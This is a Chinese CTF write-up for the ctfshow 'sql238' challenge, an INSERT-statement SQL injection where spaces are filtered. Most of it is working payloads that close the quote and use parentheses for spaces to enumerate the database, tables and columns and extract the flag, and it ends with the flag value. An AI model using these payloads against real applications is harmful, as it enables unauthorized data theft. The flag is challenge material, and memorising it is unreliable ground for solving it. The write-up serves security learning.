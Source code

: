# ctfshow-sql238



##### 参考链接

其他大佬链接

feng  https://blog.csdn.net/rfrder/article/details/113759746

Je3    https://blog.csdn.net/jvkyvly/article/details/115458909

Y4	 https://blog.csdn.net/solitudi/article/details/110144623





 查询语句 

```
  //插入数据
  $sql = "insert into ctfshow_user(username,pass) value('{$username}','{$password}');";
```



 返回逻辑 

```
  //过滤空格

```





```mysql
过滤空格可以用括号绕过

insert注入，直接闭合单引号，然后自己构造查询语句，把查询的结果insert到表里

注入点api/insert.php


username=1',database())#&password=123456
倒序查找内容
ctfshow_web




username=1',(select(group_concat(table_name))from(information_schema.tables)where(table_schema=database())))#&password=1

	
banlist,ctfshow_user,flagb


# username=3',(select group_concat(column_name) from information_schema.columns where table_name='flag'));-- A&password=1

username=3',(select(group_concat(column_name))from(information_schema.columns)where(table_name='flagb')))#&password=1
	
	
id,flag,info
	


username=1',(select(flag)from(flagb)))#&password=1


	
ctfshow{9980706e-fcda-4589-803c-7b19cea68199}



```























